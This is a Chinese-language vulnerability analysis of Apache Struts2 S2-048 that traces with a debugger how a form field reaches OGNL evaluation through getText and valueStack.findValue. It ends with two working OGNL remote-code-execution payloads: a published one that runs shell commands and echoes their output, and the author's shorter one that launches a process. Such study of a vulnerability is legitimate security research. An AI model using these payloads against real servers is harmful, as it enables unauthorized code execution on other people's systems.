 假设已知条件为官方说明:
> 漏洞产生的原因是将用户可控的值添加到 ActionMessage 并在客户前端展示，导致其进入 getText 函数，最后 message 被当作 ognl 表达式执行，攻击者可以构造恶意的字段值通过Struts2的struts2-struts1-plugin插件，远程执行代码

进行数据追踪。

## 查找漏洞点
![36972997.png](s2-048数据追踪_files/36972997.png)
可以看到，有个`SaveGangsterAction`很明显符合描述的操作，先跟进去看，发现操作都是被包含在`execute`函数里的，此函数的作用将获取到的内容进行一个拼接，那就接着找，`Alt+shift+7`查找调用，
![37225678.png](s2-048数据追踪_files/37225678.png)
很明显的看到这个插件里调用了函数，跟进去，进到了`Struts1Action`的`execute`函数里，并且这个函数里出现了漏洞描述中的`getText()`

## 开始调试

先运行起来，就在`ActionForward forward = action.execute(mapping, actionForm, request, response);`下个断点，追一下数据，看看数据是如何进入到`getText()`中的

先查一下`SaveGangsterAction`对应的action
![38145476.png](s2-048数据追踪_files/38145476.png)```
```
http://localhost:8080/integration/saveGangster.action
```
看一下前端的写法
```
<%@ taglib prefix="s" uri="/struts-tags" %>
<html>
<head>
    <title>Struts2 Showcase - Struts1 Integration</title>
    <s:head/>
</head>

<body>

<div class="page-header">
    <h1>Struts1 Integration</h1>
</div>

<div class="container-fluid">
    <div class="row-fluid">
        <div class="span12">


            <s:form action="saveGangster" namespace="/integration">

                <s:textfield
                        label="Gangster Name"
                        name="name"/>
                <s:textfield
                        label="Gangster Age"
                        name="age"/>
                <s:checkbox
                        label="Gangster Busted Before"
                        name="bustedBefore"/>
                <s:textarea
                        cols="30"
                        rows="5"
                        label="Gangster Description"
                        name="description"/>
                <s:submit cssClass="btn btn-primary"/>

            </s:form>


        </div>
    </div>
</div>
</body>
</html>
```
这儿是`getName()`，因此我们只需要在`name`处做手脚便可以，输入`${123+321}`试试，返回的结果是`444`，看一下数据怎么传输的

`message`的值是已经拼接完成的
![38907854.png](s2-048数据追踪_files/38907854.png)
然后在下面进入到的是
![39003617.png](s2-048数据追踪_files/39003617.png)
先打个断点，然后f7跟进去看看
看一下这个函数的调用栈
![39283911.png](s2-048数据追踪_files/39283911.png)
三次`getText()`后进入到一个`findText()`，然后这个`findText()`里出现了很敏感的一行代码
```
ValueStack valueStack = ActionContext.getContext().getValueStack();
```
这儿便开始了OGNL的调用，然后又返回一个新的`findText()`，跟进去，但是整个追踪完就直接返回到最外面的`getText()`了，那肯定是漏了什么

## 追踪`valueStack`

重新想一下，`findText()`里面出现的
```
ValueStack valueStack = ActionContext.getContext().getValueStack();
```
而且传入其中的还有一个参数是`aTextName`，这个值是`Gangster ${123+321} added successfully`

那如果后面出现了`valueStack.findValue(aTextName)`这样形式的东西，那不就是漏洞了？

重新追一下数据，查看这个函数里哪些`valueStack`被调用

发现一个是`getMessage()`另一个是`getDefaultMessage()`，并且两个函数都用到一个`translateVariables()`函数，且都传入了`aTextName`，关于这个函数，可以借鉴一下`s2-016`

两个函数分别跟的时候，发现`getMessage`会在进入`translateVariables()`前就先返回`null`，因此不符合条件

再看`getDefaultMessage()`
![42929370.png](s2-048数据追踪_files/42929370.png)
追进去看一下数据
![43186666.png](s2-048数据追踪_files/43186666.png)
可以看到，符合了`valueStack.findValue(aTextName)`的形式

### POC

先看一下已经公布的常用的POC：
```java
${(#dm=@\u006Fgnl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess=#dm).(#ef='echo s2-048-EXISTS').(#iswin=(@\u006Aava.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#efe=(#iswin?{'cmd.exe','/c',#ef}:{'/bin/bash','-c',#ef})).(#p=new \u006Aava.lang.ProcessBuilder(#efe)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
上面的大多比较废话，然后因为方便输出所以调用了@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()，然后替换了输出

写一下我的POC：
```java
${(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(new java.lang.ProcessBuilder('gedit').start())}
```
很简单理解，首先先覆盖`_memberAccess`绕过`SecurityMemberAccess`，然后再调用`ProcessBuilder`执行命令。

这当然有限制条件：
```
<constant name="struts.enable.DynamicMethodInvocation" value="true" />
```
不过是默认开启的